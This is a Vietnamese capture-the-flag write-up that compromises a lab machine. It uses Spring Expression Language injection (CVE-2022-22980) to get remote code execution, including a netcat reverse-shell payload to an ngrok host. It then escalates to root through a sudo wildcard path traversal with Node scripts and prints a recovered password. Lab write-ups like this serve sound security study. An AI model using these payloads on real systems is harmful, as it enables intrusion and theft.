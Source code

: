 ﻿Port scan:

![enter image description here](https://imgur.com/3ZwlTPf.png)

![enter image description here](https://imgur.com/O3bOYyi.png)

Truy cập vào target port 6969 bằng web browser, nhận ra port 6969 chạy HTTP.
TCP/6969 - HTTP:

![enter image description here](https://imgur.com/qPTCxvZ.png)

URL Fuzzing with Gobuster:

![enter image description here](https://imgur.com/IrUs1O0.png)

Truy cập /CHANGELOG.md:

![enter image description here](https://imgur.com/lgpDa43.png)

Page source:

![enter image description here](https://imgur.com/aBaDcSP.png)

Ở đây có 02 chỗ cần lưu ý:
1 là đoạn `change password to whitehat as default`.
2 là đoạn `you can view more <a href="/s0urc3"> here</a>` (ở page source, hidden trên view).

Truy cập /s0urc3 vừa tìm được, tự động tải về 1 file source.zip. Giải nén file source.zip ra được 1 cấu trúc thư mục và các file source có vẻ giống cấu trúc của Java Springboot.
Tóm tắt những thông tin thú vị thu được từ source:

- Ngôn ngữ: Java.
- Framework: Springboot.
- DB: MongoDB.
- Server port: 6969.
- API endpoint: POST - /v1/user/get.

File UserController.java:

![enter image description here](https://imgur.com/dQrj7iG.png)

API POST - /v1/user/get gọi đến method readUserId. Trong readUserId thực hiện truyền id (đã được URL decode) vào method findByUserNameLike của class UserRepository.

File UserRepository.java:

![enter image description here](https://imgur.com/IVMO2MB.png)

Ban đầu mình nghĩ đến NoSQL injection nhưng không khả thi. Sau một hồi tìm kiếm thì mình thấy đoạn code này có thể dính lỗ hổng SpEL (Spring Expression Language) - CVE-2022-22980. Lỗ hổng này có thể dẫn đến RCE. Lợi dụng việc đó để spawn reverse shell kết nối về local. Điểm trigger đã xác định được là API endpoint POST /v1/user/get, payload truyền vào tham số id.

Mở listener ở local. Mình sẽ dùng ngrok để thực hiện port forward từ local ra public. Vì vậy trong payload tạo reverse shell sẽ chứa địa chỉ của ngrok.
Payload:

```
T(java.lang.Runtime).getRuntime().exec("nc 0.tcp.ap.ngrok.io 13186 -e /bin/sh").waitFor()
```

URL encode payload và gửi request bằng Burp Suite:

![enter image description here](https://imgur.com/LKmGjzK.png)

Ở local nhận được kết nối reverse shell:

![enter image description here](https://imgur.com/yHy6qOl.png)

![enter image description here](https://imgur.com/h8rH0e7.png)

Well. Đã truy cập được vào target. 
User flag:

![enter image description here](https://imgur.com/PKMduwl.png)

Lướt qua một vòng target, mình nhận thấy target dùng busybox và busybox ở đây thì không hỗ trợ nhiều command lắm. 

![enter image description here](https://imgur.com/gl9Rv2y.png)

Mình cố gắng để spawn interactive shell nhưng không được (hoặc vì mình không tìm ra nhưng người khác có thể). 

Mục tiêu tiếp theo là lấy root flag. Check sudo right:

![enter image description here](https://imgur.com/DJECFD6.png)

User spring có thể chạy `sudo /user/bin/node /usr/local/scripts/*.js` với quyền root. Để làm được điều đó thì phải có mật khẩu của user spring. Hướng tiếp theo là đi tìm password của user spring. Tìm các file chứa từ khóa password trong tên:

`find / -iname *password* 2>/dev/null`

Kết quả:

![enter image description here](https://imgur.com/cgn5FUG.png)

File /opt/Passwords.kdbx có vẻ khả nghi. Phần mở rộng kdbx là file data được tạo bởi KeePass Password Safe (một phần mềm quản lý password). Lấy nó về local bằng cách encode base64 -> copy về local -> decode ở local (ở local mình đặt tên là pass.kdbx).

Mở file pass.kdbx ở local bằng keepass2. Một cửa sổ hiện lên yêu cầu nhập master password:

![enter image description here](https://imgur.com/aoarcex.png)

Nhớ lại khi truy cập vào /CHANGELOG.md ở HTTP, nội dung của trang có đề cập đến "change password to whitehat as default" (đã lưu ý ở trên). Thử nhập "whitehat" vào Master Passsword và thành công mở được file. 

![enter image description here](https://imgur.com/9nO3ldx.png)

Nội dung trong này là credentials của user spring. Lấy password bằng cách click copy password. Password của user spring là: `5DymSe0rbLE491QsCLgm`

Vì user spring không có quyền write vào /usr/local/scripts nên không thể tạo file chứa payload trong đó. Ở đây mình sẽ tạo 1 file chứa payload trong /tmp/t và lợi dụng dấu wildcard (dấu *) trong đường dẫn trên để gọi đến file chứa payload bằng lỗ hổng path traversal.

Payload liệt kê /root:

`require("child_process").exec("ls -la /root > /tmp/t/lsout.txt");`

![enter image description here](https://imgur.com/b7g2J2u.png)

Nội dung file lsout.txt chứa output của `ls -la /root`. Đọc nội dung file lsout.txt nhận thấy trong /root chỉ có 1 file là root.txt.

Payload đọc root flag: 

`process.stdout.write(require("fs").readFileSync("/root/root.txt"))` 

Tạo file /tmp/t/read.js với nội dung là payload trên. Thực thi file read.js bằng sudo để đọc được /root/root.txt:

![enter image description here](https://imgur.com/1ojKPH6.png)

Phân tích kỹ hơn về câu lệnh 
```
echo '5DymSe0rbLE491QsCLgm' | sudo -S /usr/bin/node /usr/local/scripts/../../../tmp/t/read.js
```

và 

```
echo '5DymSe0rbLE491QsCLgm' | sudo -S /usr/bin/node /usr/local/scripts/../../../tmp/t/shell.js
```

Đầu tiên, vì user spring có thể sudo /usr/bin/node /usr/local/scripts/*.js , truyền vào dấu wildcard ../../../tmp/t/read.js vẫn được tính là hợp lệ (tương tự với shell.js). Tiếp theo, vì ở đây đang là non-interactive shell nên nếu dùng sudo như bình thường thì sẽ không nhập được password khi sudo. Giải quyết vấn đề này bằng cách sử dụng echo \<password\> và pipe sang sudo -S để sudo đọc password từ stdin (thứ mà vừa pipe từ echo sang). 

Root flag ở đây là:

![enter image description here](https://imgur.com/otRy3BK.png)

P.S. Tuy đã lấy được đủ user flag và root flag nhưng mình vẫn chưa hài lòng vì chưa thành công spawn root shell. Nếu box mở thêm lâu hơn nữa thì có thể mình sẽ tìm cách để spawn root shell. Dù sao lấy được root flag cũng là cách để chứng minh đã leo thang đặc quyền thành công.

Happy Hacking!
